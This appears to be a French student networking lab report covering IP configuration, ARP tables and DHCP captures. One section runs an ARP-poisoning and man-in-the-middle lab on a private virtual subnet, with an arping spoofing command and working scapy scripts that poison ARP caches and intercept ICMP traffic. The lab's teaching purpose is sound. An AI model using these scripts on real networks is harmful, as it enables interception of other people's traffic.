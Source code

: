 # TP2 : Ethernet, IP, et ARP
# I. Setup IP
🌞 **Mettez en place une configuration réseau fonctionnelle entre les deux machines**
```
$ sudo ip addr add 10.10.10.2/22 dev enp3s0
```
```
$ ip a

2: enp3s0:
    link/ether c0:18:50:0e:cb:bb
    inet 10.10.10.2/22
```
```
$ sipcalc 10.10.10.2/22

-[ipv4 : 10.10.10.2/22] - 0

[CIDR]
Network address		- 10.10.8.0
Network mask		- 255.255.252.0
Broadcast address	- 10.10.11.255
```
🌞 **Prouvez que la connexion est fonctionnelle entre les deux machines**
```
$ ping 10.10.10.3

PING 10.10.10.3 (10.10.10.3) 56(84) bytes of data.
64 bytes from 10.10.10.3: icmp_seq=1 ttl=128 time=2.47 ms
64 bytes from 10.10.10.3: icmp_seq=2 ttl=128 time=1.27 ms
64 bytes from 10.10.10.3: icmp_seq=3 ttl=128 time=1.33 ms
64 bytes from 10.10.10.3: icmp_seq=4 ttl=128 time=1.11 ms
^C
--- 10.10.10.3 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3004ms
rtt min/avg/max/mdev = 1.105/1.542/2.471/0.542 ms

```
🌞 **Wireshark it**
 - Ping : type 8, code 0
 - Pong : type 0, code 0

[Paquets ICMP](./Trames/ping.pcapng)
# II. ARP my bro
🌞 **Check the ARP table**
```
$ ip n s

10.33.19.254 dev wlp4s0 lladdr 00:c0:e7:e0:04:4e REACHABLE 
10.10.10.3 dev enp3s0 lladdr e4:a8:df:c1:f9:9d STALE 
```
- MAC de la gateway : 00:c0:e7:e0:04:4e
- MAC du binôme : e4:a8:df:c1:f9:9d

🌞 **Manipuler la table ARP**
```
$ sudo ip n flush all  
```
```
$  ip n s

10.33.19.254 dev wlp4s0 lladdr 00:c0:e7:e0:04:4e REACHABLE 

```
```
$ ping 10.10.10.3
```
```
$ ip n s

10.33.19.254 dev wlp4s0 lladdr 00:c0:e7:e0:04:4e REACHABLE 
10.10.10.3 dev enp3s0 lladdr e4:a8:df:c1:f9:9d REACHABLE 

```
🌞 **Wireshark it**

[Trames ARP](./Trames/arp.pcapng)

# II.5 Interlude hackerzz
## 1 - ARP poisoning
- Eve :
```
$ ip a

3: eth1:
    link/ether 08:00:27:be:50:e2
    inet 192.168.56.104/24
```
- Alice :
```
$ ip a

2: enp0s8:
    link/ether 08:00:27:ff:10:b8
    inet 192.168.56.102/24
```
- Bob : 
```
$ ip a

2: enp0s8:
    link/ether 08:00:27:c6:94:50
    inet 192.168.56.103/24

$ ip n s

192.168.56.1 dev enp0s8 lladdr 0a:00:27:00:00:00 REACHABLE
```
- Depuis Eve : 
```
$ sudo sysctl net.ipv4.ip_nonlocal_bind=1

$ sudo arping -c 1000000 -U -S 192.168.56.102 -I eth1 192.168.56.103
```
- Depuis Bob : 
```
$ ip n s

192.168.56.102 dev enp0s8 lladdr 08:00:27:be:50:e2 STALE
192.168.56.1 dev enp0s8 lladdr 0a:00:27:00:00:00 DELAY
```
[Pings](./Trames/arp_poisoning_1_ping.pcapng)
## 2 - Man in the middle
- ARP poisoning (arp_poisoning.py) : 
``` python 
from scapy.all import *

while 1:
    send(ARP(pdst = "192.168.56.102", psrc = "192.168.56.103", hwsrc = "08:00:27:be:50:e2"))
    send(ARP(pdst = "192.168.56.103", psrc = "192.168.56.102", hwsrc = "08:00:27:be:50:e2"))

```
- Man in the middle (mitm.py) : 
``` python
from scapy.all import *

# modifie et envoie les packets
def changer_dst(packet):
    if packet[Ether].dst == "08:00:27:be:50:e2": # si le mac du destinataire est celui d'eve
        # modifie l'adresse mac du destinataire en fonction de l'IP
        packet[Ether].dst = "08:00:27:ff:10:b8"*(packet[IP].dst == "192.168.56.102") + "08:00:27:c6:94:50"*(packet[IP].dst == "192.168.56.103")
        packet[Ether].src = "08:00:27:be:50:e2" # modifie l'adresse mac de l'expéditeur
        sendp(packet)

# Intercepte les packets
sniff(iface="eth0", filter = "icmp and host 192.168.56.103 and host 192.168.56.102", prn = changer_dst)

```
- Alice et Bob : 
```
[alice@localhost ~]$ ip n s

192.168.56.1 dev enp0s8 lladdr 0a:00:27:00:00:00 DELAY
```
```
[bob@localhost ~]$ ip n s

192.168.56.1 dev enp0s8 lladdr 0a:00:27:00:00:00 REACHABLE
```
- Eve : 
```
sudo python Desktop/arp_poisoning.py
```
- Alice et Bob : 
```
[alice@localhost ~]$ ip n s

192.168.56.1 dev enp0s8 lladdr 0a:00:27:00:00:00 DELAY
192.168.56.104 dev enp0s8 lladdr 08:00:27:be:50:e2 STALE
192.168.56.103 dev enp0s8 lladdr 08:00:27:be:50:e2 STALE

```
```
[bob@localhost ~]$ ip n s
192.168.56.100 dev enp0s8 lladdr 08:00:27:90:83:f3 STALE
192.168.56.1 dev enp0s8 lladdr 0a:00:27:00:00:00 DELAY
192.168.56.102 dev enp0s8 lladdr 08:00:27:be:50:e2 STALE
192.168.56.104 dev enp0s8 lladdr 08:00:27:be:50:e2 STALE
```
[Trames ARP poisoning](./Trames/arp_poisoning_py.pcapng)
- Eve : 
```
sudo python Desktop/mitm.py
```
- Alice et Bob : 
```
[alice@localhost ~]$ ping 192.168.56.103 -c 3

PING 192.168.56.103 (192.168.56.103) 56(84) bytes of data.
64 bytes from 192.168.56.103: icmp_seq=1 ttl=64 time=74.3 ms
64 bytes from 192.168.56.103: icmp_seq=2 ttl=64 time=68.1 ms
64 bytes from 192.168.56.103: icmp_seq=3 ttl=64 time=45.6 ms

--- 192.168.56.103 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2003ms
rtt min/avg/max/mdev = 45.616/62.655/74.280/12.312 ms
```
[Pings d'Alice](./Trames/alice_pings.pcapng)
```
[bob@localhost ~]$ ping 192.168.56.102 -c 3

PING 192.168.56.102 (192.168.56.102) 56(84) bytes of data.
64 bytes from 192.168.56.102: icmp_seq=1 ttl=64 time=50.9 ms
64 bytes from 192.168.56.102: icmp_seq=2 ttl=64 time=62.3 ms
64 bytes from 192.168.56.102: icmp_seq=3 ttl=64 time=59.0 ms

--- 192.168.56.102 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2003ms
rtt min/avg/max/mdev = 50.900/57.393/62.259/4.777 ms
```
[Pings de Bob](./Trames/bob_pings.pcapng)
# III. DHCP you too my brooo

🌞 **Wireshark it**

[Trames DHCP](./Trames/dhcp.pcapng)
- IP à utiliser : 
    Destinataire : 10.33.16.230
- Adresse IP de la passerelle réseau : 
    trame 2, option 3, routeur (10.33.19.254)
- Adresse d'un serveur DNS : 
    trame 2, option 6, Domaine Name Server (8.8.8.8 ; 8.8.4.4 ; 1.1.1.1)
